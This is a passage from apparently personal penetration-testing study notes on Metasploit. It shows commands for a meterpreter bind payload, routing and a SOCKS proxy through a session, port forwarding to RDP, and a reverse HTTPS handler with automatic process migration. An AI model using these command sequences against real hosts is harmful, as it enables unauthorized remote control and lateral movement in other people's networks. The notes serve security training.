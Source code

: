 ```bash
set RHOSTS $IP_TARGET
set payload windows/x64/meterpreter/bind_tcp
set LPORT 8000
run

use multi/manage/autoroute
show options
session -l
set session $SESSION_NUMBER
run

use auxiliary/server/socks_proxy
show options
set SRVHOST 127.0.0.1
set VERSION 5
run -j
```

shell:

```bash
sudo proxychains xfreerdp /v:$IP_TARGET /u:$USERNAME
```

msfconsole:

```bash
use server/socks_proxy
set session $SESSION_NUMBER

portfwd -h
portfwd add -l 3389 -p 3389 -r $IP_TARGET
```

shell:

```bash
sudo proxychains xfreerdp /v:$IP_TARGET /u:$USERNAME
```

# 20.4. Automating Metasploit

## 20.4.1. Resource Scripts

- https://docs.rapid7.com/metasploit/resource-scripts/

msfconsole:

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST tun0
set LPORT 443

set AutoRunScript post/windows/manage/migrate 
set ExitOnSession false
```
